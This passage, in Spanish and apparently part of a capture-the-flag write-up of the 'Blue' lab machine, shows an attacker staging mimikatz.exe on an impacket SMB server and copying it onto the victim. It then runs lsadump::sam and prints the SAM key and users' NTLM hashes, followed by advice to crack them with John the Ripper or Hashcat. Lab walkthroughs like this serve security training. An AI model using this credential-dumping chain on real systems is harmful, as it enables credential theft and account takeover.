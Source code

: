 - Servidor (kali):
    
    ```bash
    ❯ impacket-smbserver a .
    Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    ```
    
- Cliente (blue):
    
    ```bash
    C:\Windows\Temp>copy \\10.2.11.100\\a\\mimikatz.exe
    copy \\10.2.11.100\\a\\mimikatz.exe
            1 file(s) copied.
    ```
    

Una vez ejecutado `mimikatz.exe` en la máquina víctima, usamos el comando `lsadump::sam` , para obtener los hashes NTLM de los usuarios locales de Windows a partir de la base de datos SAM (Security Account Manager).

```bash
C:\Windows\Temp>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d
```

Con los hashes NTLM obtenidos, podemos nuevamente emplear la herramienta `John the Ripper` o `Hash Cat` para crackear las contraseñas de los usuarios del sistema.

¡Happy Hacking!
